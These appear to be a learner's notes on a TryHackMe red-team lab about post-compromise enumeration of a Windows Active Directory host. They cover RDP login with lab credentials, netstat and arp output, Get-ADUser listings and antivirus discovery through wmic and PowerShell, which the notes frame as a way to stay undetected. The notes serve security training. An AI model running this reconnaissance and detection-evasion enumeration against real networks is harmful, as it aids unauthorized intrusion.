








# The Lay of the Land

It is essential to be familiar with the environment where you have initial access to a compromised machine during a red team engagement. Therefore, performing reconnaissance and enumeration is a significant part, and the primary goal is to gather as much information as possible to be used in the next stage. 

With an initial foothold established, the post-exploitation process begins! 

This room introduces commonly-used concepts, technologies, and security products that we need to be aware of.

In this room, the assumption is that we have already gained access to the machine, and we are ready to expand our knowledge more about the environment by performing enumerating for the following:

- Network infrastrucutre
- Active Directory Environment
- Users and Groups
- Host-based security solutions
- Network-based security solutions
- Applications and services


## RDP
```bash
brew install freerdp

xfreerdp /v:10.10.16.105 /u:kkid

# example
xfreerdp /u:ido.montekyo@domain /p:mypass /v:10.10.20.20 /cert-ignore /auto-reconnect-max-retries:0 /smart-sizing +clipboard /home-drive

/u:ido.montekyo@domain        --> User name @ domain
/p:mypass                     --> Your password
/v:10.10.20.20                --> Remote IP address or Hostname
/cert-ignore                  --> Ignore certificate issues
/auto-reconnect-max-retries:0 --> Auto Reconnect if needed
/smart-sizing                 --> Enable window resize
+clipboard                    --> Share the clipboard (copy-paste)
/home-drive                   --> Share/Expose my home directory

```


If you prefer to connect via RDP, make sure you deploy the AttackBox or connect to the VPN.
Use the following credentials: kkidd:Pass123321@.

```bash
user@machine$ xfreerdp /v:10.10.16.105 /u:kkidd
```

## Network Infrastructure

Once arriving onto an unknown network, our first goal is to identify where we are and what we can get to. During the red team engagement, we need to understand what target system we are dealing with, what service the machine provides, what kind of network we are in. Thus, the enumeration of the compromised machine after getting initial access is the key to answering these questions. This task will discuss the common types of networks we may face during the engagement.

Network segmentation is an extra layer of network security divided into multiple subnets. It is used to improve the security and management of the network. For example, it is used for preventing unauthorized access to corporate most valuable assets such as customer data, financial records, etc.

The Virtual Local Area Networks (VLANs) is a network technique used in network segmentation to control networking issues, such as broadcasting issues in the local network, and improve security. Hosts within the VLAN can only communicate with other hosts in the same VLAN network. 

If you want to learn more about network fundamentals, we suggest trying the following TryHackMe module: Network Fundamentals.

**Internal Networks**

Internal Networks are subnetworks that are segmented and separated based on the importance of the internal device or the importance of the accessibility of its data. The main purpose of the internal network(s) is to share information, faster and easier communications, collaboration tools, operational systems, and network services within an organization. In a corporate network, the network administrators intend to use network segmentation for various reasons, including controlling network traffic, optimizing network performance, and improving security posture. 



The previous diagram is an example of the simple concept of network segmentation as the network is divided into two networks. The first one is for employee workstations and personal devices. The second is for private and internal network devices that provide internal services such as DNS, internal web, email services, etc.

**A Demilitarized Zone (DMZ)**

A DMZ Network is an edge network that protects and adds an extra security layer to a corporation's internal local-area network from untrusted traffic. A common design for DMZ is a subnetwork that sits between the public internet and internal networks.

Designing a network within the company depends on its requirements and need. For example, suppose a company provides public services such as a website, DNS, FTP, Proxy, VPN, etc. In that case, they may design a DMZ network to isolate and enable access control on the public network traffic, untrusted traffic.



In the previous diagram, we represent the network traffic to the DMZ network in red color, which is untrusted ( comes directly from the internet). The green network traffic between the internal network is the controlled traffic that may go through one or more than one network security device(s).

Enumerating the system and the internal network is the discovering stage, which allows the attacker to learn about the system and the internal network. Based on the gained information, we use it to process lateral movement or privilege escalation to gain more privilege on the system or the AD environment.

```cmd
C:\Users\kkidd>netstat -na

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:2179           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:13337          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49673          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49680          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49713          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49729          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49794          0.0.0.0:0              LISTENING
  TCP    10.10.16.105:53        0.0.0.0:0              LISTENING
  TCP    10.10.16.105:139       0.0.0.0:0              LISTENING
  TCP    10.10.16.105:3389      10.100.2.80:60874      ESTABLISHED
  TCP    10.10.16.105:49816     52.165.165.26:443      SYN_SENT
  TCP    127.0.0.1:53           0.0.0.0:0              LISTENING
  TCP    [::]:80                [::]:0                 LISTENING
  ...
   UDP    [::1]:56774            *:*
  UDP    [2001:0:14be:4c8:28a4:288b:f5f5:ef96]:88  *:*
  UDP    [2001:0:14be:4c8:28a4:288b:f5f5:ef96]:464  *:*
  UDP    [fe80::28a4:288b:f5f5:ef96%15]:88  *:*
  UDP    [fe80::28a4:288b:f5f5:ef96%15]:464  *:*
  UDP    [fe80::28a4:288b:f5f5:ef96%15]:546  *:*
  UDP    [fe80::4079:57b7:e593:e5cf%9]:53  *:*
  UDP    [fe80::4079:57b7:e593:e5cf%9]:88  *:*
  UDP    [fe80::4079:57b7:e593:e5cf%9]:464  *:*

C:\Users\kkidd>arp -a

Interface: 10.10.16.105 --- 0x9
  Internet Address      Physical Address      Type
  10.10.0.1             02-c8-85-b5-5a-aa     dynamic
  10.10.255.255         ff-ff-ff-ff-ff-ff     static
  224.0.0.22            01-00-5e-00-00-16     static
  224.0.0.251           01-00-5e-00-00-fb     static
  224.0.0.252           01-00-5e-00-00-fc     static
  255.255.255.255       ff-ff-ff-ff-ff-ff     static
```

commands
```cmd
netstat -na
arp -a
```

**Internal Network Services**

It provides private and internal network communication access for internal network devices. An example of network services is an internal DNS, web servers, custom applications, etc. It is important to note that the internal network services are not accessible outside the network. However, once we have initial access to one of the networks that access these network services, they will be reachable and available for communications. 

We will discuss more Windows applications and services in Task 9, including DNS and custom web applications.


## ACTIVE DIRECTORY ENVIRONMENT

Internal Network Services

It provides private and internal network communication access for internal network devices. An example of network services is an internal DNS, web servers, custom applications, etc. It is important to note that the internal network services are not accessible outside the network. However, once we have initial access to one of the networks that access these network services, they will be reachable and available for communications. 

We will discuss more Windows applications and services in Task 9, including DNS and custom web applications.



The diagram is one possible example of how Active Directory can be designed. The AD controller is placed in a subnet for servers (shown above as server network), and then the AD clients are on a separate network where they can join the domain and use the AD services via the firewall.

The following is a list of Active Directory components that we need to be familiar with:
- Domain Controllers
- Organizational Units
- AD objects
- AD Domains
- Forest
- AD Service Accounts: Built-in local users, Domain users, Managed service accounts
- Domain Administrators

A Domain Controller is a Windows server that provides Active Directory services and controls the entire domain. It is a form of centralized user management that provides encryption of user data as well as controlling access to a network, including users, groups, policies, and computers. It also enables resource access and sharing. These are all reasons why attackers target a domain controller in a domain because it contains a lot of high-value information.



Organizational Units (OU's) are containers within the AD domain with a hierarchical structure.

Active Directory Objects can be a single user or a group, or a hardware component, such as a computer or printer. Each domain holds a database that contains object identity information that creates an AD environment, including:

- Users - A security principal that is allowed to authenticate to machines in the domain
- Computers - A special type of user accounts
- GPOs - Collections of policies that are applied to other AD objects
- AD domains are a collection of Microsoft components within an AD network. 

AD Forest is a collection of domains that trust each other. 



For more information about the basics of Active Directory, we suggest trying the following TryHackMe room: Active Directory Basics.
> https://tryhackme.com/room/winadbasics

Once Initial Access has been achieved, finding an AD environment in a corporate network is significant as the Active Directory environment provides a lot of information to joined users about the environment. As a red teamer, we take advantage of this by enumerating the AD environment and gaining access to various details, which can then be used in the lateral movement stage.

```
PS C:\Users\thm> systeminfo | findstr Domain
OS Configuration:          Primary Domain Controller
Domain:                    thmdomain.com

```



## Users and GroupS Management
In this task, we will learn more about users and groups, especially within the Active Directory. Gathering information about the compromised machine is essential that could be used in the next stage. Account discovery is the first step once we have gained initial access to the compromised machine to understand what we have and what other accounts are in the system. 

An Active Directory environment contains various accounts with the necessary permissions, access, and roles for different purposes. Common Active Directory service accounts include built-in local user accounts, domain user accounts, managed service accounts, and virtual accounts. 

- The built-in local users' accounts are used to manage the system locally, which is not part of the AD environment.
- Domain user accounts with access to an active directory environment can use the AD services (managed by AD).
- AD managed service accounts are limited domain user account with higher privileges to manage AD services.
- Domain Administrators are user accounts that can manage information in an Active Directory environment, including AD configurations, users, groups, permissions, roles, services, etc. One of the red team goals in engagement is to hunt for information that leads to a domain administrator having complete control over the AD environment.


The following are Active Directory Administrators accounts:
|   BUILTIN\Administrator   |          Local admin access on a domain controller         |
|:-------------------------:|:----------------------------------------------------------:|
|       Domain Admins       |    Administrative access to all resources in the domain    |
|     Enterprise Admins     |              Available only in the forest root             |
|       Schema Admins       | Capable of modifying domain/forest; useful for red teamers |
|      Server Operators     |                  Can manage domain servers                 |
|     Account Operators     |     Can manage users that are not in privileged groups     |

Now that we learn about various account types within the AD environment. Let's enumerate the Windows machine that we have access to during the initial access stage. As a current user, we have specific permissions to view or manage things within the machine and the AD environment. 

**Active Directory (AD) Enum**


```ps1
PS C:\Users\kkidd> Get-ADUser -Filter *


DistinguishedName : CN=Administrator,CN=Users,DC=thmredteam,DC=com
Enabled           : True
GivenName         :
Name              : Administrator
ObjectClass       : user
ObjectGUID        : 4094d220-fb71-4de1-b5b2-ba18f6583c65
SamAccountName    : Administrator
SID               : S-1-5-21-1966530601-3185510712-10604624-500
Surname           :
UserPrincipalName :

DistinguishedName : CN=Guest,CN=Users,DC=thmredteam,DC=com
GivenName         :
Name              : Guest
ObjectClass       : user
ObjectGUID        : e2c30114-37c2-4ab2-abd6-0e6c84753518
SamAccountName    : Guest
SID               : S-1-5-21-1966530601-3185510712-10604624-501
Surname           :
UserPrincipalName :

DistinguishedName : CN=krbtgt,CN=Users,DC=thmredteam,DC=com
Enabled           : False
GivenName         :
Name              : krbtgt
ObjectClass       : user
ObjectGUID        : 001ec69b-76a0-456a-b8bb-a5648f624a23
SamAccountName    : krbtgt
SID               : S-1-5-21-1966530601-3185510712-10604624-502
Surname           :
UserPrincipalName :

DistinguishedName : CN=Pierre Pittman,OU=THM,DC=thmredteam,DC=com
GivenName         : Pierre
Name              : Pierre Pittman
ObjectClass       : user
ObjectGUID        : 34febcdd-49dc-4160-b88e-7e6323f40dba
SamAccountName    : ppittman
SID               : S-1-5-21-1966530601-3185510712-10604624-1113
Surname           : Pittman
UserPrincipalName : ppittman@thmredteam.com

DistinguishedName : CN=Dario Philips,OU=THM,DC=thmredteam,DC=com
GivenName         : Dario
Name              : Dario Philips
ObjectClass       : user
ObjectGUID        : 3cc9cfc7-3c62-4d46-8a83-b8c02f45efbb
SamAccountName    : dphilips
SID               : S-1-5-21-1966530601-3185510712-10604624-1114
Surname           : Philips
UserPrincipalName : dphilips@thmredteam.com

DistinguishedName : CN=Weronika Burgess,OU=THM,DC=thmredteam,DC=com
GivenName         : Weronika
Name              : Weronika Burgess
ObjectClass       : user
ObjectGUID        : 88e2935a-2b50-4510-816d-8eab5b06f548
SamAccountName    : wburgess
SID               : S-1-5-21-1966530601-3185510712-10604624-1116
Surname           : Burgess
UserPrincipalName : wburgess@thmredteam.com

DistinguishedName : CN=Cecil Solomon,OU=THM,DC=thmredteam,DC=com
GivenName         : Cecil
Name              : Cecil Solomon
ObjectClass       : user
ObjectGUID        : 88ca7ae9-0f03-4956-8916-b0cbd985520c
SamAccountName    : csolomon
SID               : S-1-5-21-1966530601-3185510712-10604624-1120
Surname           : Solomon
UserPrincipalName : csolomon@thmredteam.com

DistinguishedName : CN=Kevin Kidd,OU=THM,DC=thmredteam,DC=com
Enabled           : True
GivenName         : Kevin
Name              : Kevin Kidd
ObjectClass       : user
ObjectGUID        : 42353060-b13d-48b4-af2f-70543e6ca8f8
SamAccountName    : kkidd
SID               : S-1-5-21-1966530601-3185510712-10604624-1122
Surname           : Kidd
UserPrincipalName : kkidd@thmredteam.com

DistinguishedName : CN=THMServiceUser,CN=Managed Service Accounts,DC=thmredteam,DC=com
GivenName         : THMServiceUser
Name              : THMServiceUser
ObjectClass       : user
ObjectGUID        : efca9543-aac2-48b3-b5ee-b36e274954a5
SamAccountName    : thmserviceuser_
SID               : S-1-5-21-1966530601-3185510712-10604624-1123
Surname           :
UserPrincipalName : thmserviceuser_@thmredteam.com

DistinguishedName : CN=THM Admin,OU=THM,DC=thmredteam,DC=com
Enabled           : True
GivenName         : THM
Name              : THM Admin
ObjectClass       : user
ObjectGUID        : 8974cd3d-9bf0-4c43-ac7d-068413fb462c
SamAccountName    : thmadmin
SID               : S-1-5-21-1966530601-3185510712-10604624-1124
Surname           : Admin
UserPrincipalName : thmadmin@thmredteam.com
```

We can also use the LDAP hierarchical tree structure to find a user within the AD environment. The Distinguished Name (DN) is a collection of comma-separated key and value pairs used to identify unique records within the directory. The DN consists of Domain Component (DC), OrganizationalUnitName (OU), Common Name (CN), and others. The following **"CN=User1,CN=Users,DC=thmredteam,DC=com"** is an example of DN, which can be visualized as follow:
> https://www.ietf.org/rfc/rfc2253.txt



Using the SearchBase option, we specify a specific Common-Name CN in the active directory. For example, we can specify to list any user(s) that part of Users.


```

PS C:\Users\kkidd> Get-ADUser -Filter * -SearchBase "CN=Users,DC=THMREDTEAM,DC=COM"


DistinguishedName : CN=Administrator,CN=Users,DC=thmredteam,DC=com
Enabled           : True
GivenName         :
Name              : Administrator
ObjectClass       : user
ObjectGUID        : 4094d220-fb71-4de1-b5b2-ba18f6583c65
SamAccountName    : Administrator
SID               : S-1-5-21-1966530601-3185510712-10604624-500
Surname           :
UserPrincipalName :

DistinguishedName : CN=Guest,CN=Users,DC=thmredteam,DC=com
GivenName         :
Name              : Guest
ObjectClass       : user
ObjectGUID        : e2c30114-37c2-4ab2-abd6-0e6c84753518
SamAccountName    : Guest
SID               : S-1-5-21-1966530601-3185510712-10604624-501
Surname           :
UserPrincipalName :

DistinguishedName : CN=krbtgt,CN=Users,DC=thmredteam,DC=com
Enabled           : False
GivenName         :
Name              : krbtgt
ObjectClass       : user
ObjectGUID        : 001ec69b-76a0-456a-b8bb-a5648f624a23
SamAccountName    : krbtgt
SID               : S-1-5-21-1966530601-3185510712-10604624-502
Surname           :
UserPrincipalName :
```


commands
```
Get-ADUser  -Filter *
Get-ADUser -Filter * -SearchBase "CN=Users,DC=THMREDTEAM,DC=COM"

Get-ADUser -Filter * -SearchBase "OU=THM,DC=THMREDTEAM,DC=COM"
```


TASKS
Use the Get-ADUser -Filter * -SearchBase command to list the available user accounts within THM OU in the thmredteam.com domain. How many users are available?

```
PS C:\Users\kkidd> Get-ADUser -Filter * -SearchBase "OU=THM,DC=THMREDTEAM,DC=COM"


DistinguishedName : CN=Pierre Pittman,OU=THM,DC=thmredteam,DC=com
GivenName         : Pierre
Name              : Pierre Pittman
ObjectClass       : user
ObjectGUID        : 34febcdd-49dc-4160-b88e-7e6323f40dba
SamAccountName    : ppittman
SID               : S-1-5-21-1966530601-3185510712-10604624-1113
Surname           : Pittman
UserPrincipalName : ppittman@thmredteam.com

DistinguishedName : CN=Dario Philips,OU=THM,DC=thmredteam,DC=com
GivenName         : Dario
Name              : Dario Philips
ObjectClass       : user
ObjectGUID        : 3cc9cfc7-3c62-4d46-8a83-b8c02f45efbb
SamAccountName    : dphilips
SID               : S-1-5-21-1966530601-3185510712-10604624-1114
Surname           : Philips
UserPrincipalName : dphilips@thmredteam.com

DistinguishedName : CN=Weronika Burgess,OU=THM,DC=thmredteam,DC=com
GivenName         : Weronika
Name              : Weronika Burgess
ObjectClass       : user
ObjectGUID        : 88e2935a-2b50-4510-816d-8eab5b06f548
SamAccountName    : wburgess
SID               : S-1-5-21-1966530601-3185510712-10604624-1116
Surname           : Burgess
UserPrincipalName : wburgess@thmredteam.com

DistinguishedName : CN=Cecil Solomon,OU=THM,DC=thmredteam,DC=com
GivenName         : Cecil
Name              : Cecil Solomon
ObjectClass       : user
ObjectGUID        : 88ca7ae9-0f03-4956-8916-b0cbd985520c
SamAccountName    : csolomon
SID               : S-1-5-21-1966530601-3185510712-10604624-1120
Surname           : Solomon
UserPrincipalName : csolomon@thmredteam.com

DistinguishedName : CN=Kevin Kidd,OU=THM,DC=thmredteam,DC=com
Enabled           : True
GivenName         : Kevin
Name              : Kevin Kidd
ObjectClass       : user
ObjectGUID        : 42353060-b13d-48b4-af2f-70543e6ca8f8
SamAccountName    : kkidd
SID               : S-1-5-21-1966530601-3185510712-10604624-1122
Surname           : Kidd
UserPrincipalName : kkidd@thmredteam.com

DistinguishedName : CN=THM Admin,OU=THM,DC=thmredteam,DC=com
Enabled           : True
GivenName         : THM
Name              : THM Admin
ObjectClass       : user
ObjectGUID        : 8974cd3d-9bf0-4c43-ac7d-068413fb462c
SamAccountName    : thmadmin
SID               : S-1-5-21-1966530601-3185510712-10604624-1124
Surname           : Admin
UserPrincipalName : thmadmin@thmredteam.com
```

## Host Security Solution #1

Before performing further actions, we need to obtain general knowledge about the security solutions in place. Remember, it is important to enumerate antivirus and security detection methods on an endpoint in order to stay as undetected as possible and reduce the chance of getting caught.

This task will discuss the common security solution used in corporate networks, divided into Host and Network security solutions.

It is a set of software applications used to monitor and detect abnormal and malicious activities within the host, including:

- Antivirus software
- Microsoft Windows Defender
- Host-based Firewall
- Security Event Logging and Monitoring 
- Host-based Intrusion Detection System (HIDS)/ Host-based Intrusion Prevention System (HIPS)
- Endpoint Detection and Response (EDR)

**Antivirus Software (AV)**

Antivirus software also known as anti-malware, is mainly used to monitor, detect, and prevent malicious software from being executed within the host.  Most antivirus software applications use well-known features, including Background scanning, Full system scans, Virus definitions. In the background scanning, the antivirus software works in real-time and scans all open and used files in the background. The full system scan is essential when you first install the antivirus. The most interesting part is the virus definitions, where antivirus software replies to the pre-defined virus. That's why antivirus software needs to update from time to time.

There are various detection techniques that the antivirus uses, including
- Signature-based detection
- Heuristic-based detection
- Behavior-based detection

Signature-based detection is one of the common and traditional techniques used in antivirus software to identify malicious files. Often, researchers or users submit their infected files into an antivirus engine platform for further analysis by AV vendors, and if it confirms as malicious, then the signature gets registered in their database. The antivirus software compares the scanned file with a database of known signatures for possible attacks and malware on the client-side. If we have a match, then it considers a threat.

Heuristic-based detection uses machine learning to decide whether we have the malicious file or not. It scans and statically analyses in real-time in order to find suspicious properties in the application's code or check whether it uses uncommon Windows or system APIs. It does not rely on the signature-based attack in making the decisions, or sometimes it does. This depends on the implementation of the antivirus software.

Finally, Behavior-based detection relies on monitoring and examining the execution of applications to find abnormal behaviors and uncommon activities, such as creating/updating values in registry keys, killing/creating processes, etc.

As a red teamer, it is essential to be aware of whether antivirus exists or not. It prevents us from doing what we are attempting to do. We can enumerate AV software using Windows built-in tools, such as `wmic`.


```
PS C:\Users\thm> wmic /namespace:\\root\securitycenter2 path antivirusproduct
```
This also can be done using PowerShell, which gives the same result.
```
PS C:\Users\thm> Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct


displayName              : Bitdefender Antivirus
instanceGuid             : {BAF124F4-FA00-8560-3FDE-6C380446AEFB}
pathToSignedProductExe   : C:\Program Files\Bitdefender\Bitdefender Security\wscfix.exe
